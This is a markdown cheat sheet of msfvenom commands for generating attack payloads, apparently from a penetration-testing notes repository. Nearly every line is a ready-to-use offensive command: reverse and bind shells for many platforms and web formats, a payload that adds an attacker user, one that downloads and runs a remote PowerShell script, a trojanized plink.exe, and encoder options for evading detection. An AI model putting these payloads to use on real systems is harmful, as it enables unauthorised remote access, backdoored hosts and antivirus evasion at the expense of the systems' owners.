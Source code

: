 # MSFVenom

## Usage
- msfvenom -p \<PAYLOAD\> -e \<ENCODER\> -f \<FORMAT\> -i \<ENCODE COUNT\> LHOST=\<IP\>


## Commands
### Payloads
- msfvenom -l payloads 

### Encoders
- msfvenom -l encoders 


### Options
#### Banned characters
-b "\x00\x0a\x0d" 

#### Format
-f c 

#### Encoders
-e x86/shikata_ga_nai -i 5 

#### Inline options
- EXITFUNC=thread
- PrependSetuid=True #Use this to create a shellcode that will execute something with SUID


## Shells
### Reverse 
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

### Bind
- msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe


## Payloads
### Add user
- msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

### Run commands
- msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
- msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

### Embedded 
- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe

### Platforms
- msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
- msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
- msfvenom -p php/meterpreter_reverse_tcp LHOST=\<IP\> LPORT=\<PORT\> -f raw > shell.php
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
- msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
- msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
- msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
- msfvenom -p cmd/unix/reverse_bash LHOST=\<Local IP Address\> LPORT=\<Local Port\> -f raw > shell.sh

